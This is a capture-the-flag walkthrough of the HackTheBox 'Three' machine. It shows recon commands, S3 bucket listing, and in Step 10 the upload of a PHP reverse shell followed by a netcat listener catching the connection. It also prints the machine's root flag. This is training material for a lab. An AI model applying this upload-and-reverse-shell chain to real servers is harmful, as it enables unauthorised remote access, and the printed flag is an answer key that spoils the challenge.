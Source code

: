 ```yaml
---
title: "HTB Tier 1: Three - Complete Walkthrough"
date: "2025-08-25"
tags: ["HTB", "Cybersecurity", "Beginner", "CTF", "Walkthrough"]
excerpt: "A complete step-by-step walkthrough for the HTB Tier 1: Three machine, including all commands, outputs, and explanations for tools used."
---
```


# HTB Tier 1: Three Walkthrough

This walkthrough provides a detailed step-by-step solution for the HTB Tier 1: Three machine. All commands, outputs, and explanations are included so anyone can follow along.

---

## Step 1

**Question:** How many TCP ports are open?  

**Answer:** 2  

**Command and Output:**
```bash
nmap -sV -sC 10.129.25.2
````

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-25 03:50 EDT
Nmap scan report for 10.129.25.2
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7
80/tcp open  http    Apache httpd 2.4.29
```

**Explanation:** Scans open TCP ports, identifies running services and versions.

---

## Step 2

**Question:** What is the domain of the email address provided in the "Contact" section of the website?

**Answer:** thetoppers.htb

**Method:** Visit the website and check the Contact section for the email domain.

---

## Step 3

**Question:** In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses?

**Answer:** `/etc/hosts`

**Command:**

```bash
sudo nano /etc/hosts
```

**Explanation:** Allows local hostname-to-IP resolution.

---

## Step 4

**Question:** Which sub-domain is discovered during further enumeration?

**Answer:** s3.thetoppers.htb

**Commands and Outputs:**

* **FFUF Fuzzing:**

```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
-u "http://thetoppers.htb" \
-H "Host: FUZZ.thetoppers.htb" -fs 11952 -mc all
```

```
s3                      [Status: 404, Size: 21]
gc._msdcs               [Status: 400, Size: 306]
```

* **Gobuster VHOST Enumeration:**

```bash
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt \
-u http://thetoppers.htb --append-domain
```

```
s3.thetoppers.htb Status: 404 [Size: 21]
gc._msdcs.thetoppers.htb Status: 400 [Size: 306]
```

**Explanation:** Virtual host enumeration using Host header fuzzing identifies subdomains.

---

## Step 5

**Question:** Which service is running on the discovered sub-domain?

**Answer:** Amazon S3

**Method:** Observing HTTP responses shows S3 bucket behavior.

---

## Step 6

**Question:** Which command line utility can be used to interact with the service running on the discovered sub-domain?

**Answer:** AWS CLI (`awscli`)

**Installation:**

```bash
sudo apt install awscli
```

---

## Step 7

**Question:** Which command is used to set up the AWS CLI installation?

**Answer:** `aws configure`

**Command:**

```bash
aws configure
```

**Explanation:** Configures AWS credentials, default region, and output format.

---

## Step 8

**Question:** What is the command used by the above utility to list all of the S3 buckets?

**Answer:** `aws s3 ls`

**Command and Output:**

```bash
aws s3 ls --endpoint-url http://s3.thetoppers.htb
```

```
2025-08-25 03:49:04 thetoppers.htb
```

---

## Step 9

**Question:** This server is configured to run files written in what web scripting language?

**Answer:** PHP

**Command and Output:**

```bash
aws s3 ls --endpoint-url http://s3.thetoppers.htb s3://thetoppers.htb
```

```
PRE images/
2025-08-25 03:49:04          0 .htaccess
2025-08-25 03:49:04      11952 index.php
```

**Explanation:** The presence of `index.php` confirms PHP as the server-side scripting language.

---

## Step 10

**Objective:** Find the root flag.

**Steps and Outputs:**

1. **Create PHP reverse shell**

   * Source: [Pentestmonkey PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
   * Save as `shell.php`.

2. **Upload shell to S3:**

```bash
aws --endpoint-url http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb/
```

```
upload: ./shell.php to s3://thetoppers.htb/shell.php
```

3. **Set up listener:**

```bash
nc -lvnp 8080
```

```
listening on [any] 8080 ...
connect to [10.10.14.122] from (UNKNOWN) [10.129.25.2] 33394
Linux three 4.15.0-189-generic x86_64
```

4. **Access shell via browser:** Reverse shell connects.

5. **Search for root flag:**

```bash
find / -name flag.txt 2>/dev/null
```

```
/root/flag.txt
```

**Root Flag:**

```
a980d99281a28d638ac68b9bf9453c2b
```

---

## Tools Used

| Tool              | Purpose                                   | Link                                                                                                     |
| ----------------- | ----------------------------------------- | -------------------------------------------------------------------------------------------------------- |
| nmap              | Port scanning and service enumeration     | [https://nmap.org/](https://nmap.org/)                                                                   |
| ffuf              | Fuzzing hostnames to find subdomains      | [https://github.com/ffuf/ffuf](https://github.com/ffuf/ffuf)                                             |
| gobuster          | Subdomain/vhost enumeration               | [https://github.com/OJ/gobuster](https://github.com/OJ/gobuster)                                         |
| AWS CLI           | Interacting with Amazon S3 buckets        | [https://aws.amazon.com/cli/](https://aws.amazon.com/cli/)                                               |
| PHP Reverse Shell | Reverse shell payload for PHP web servers | [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell) |

---
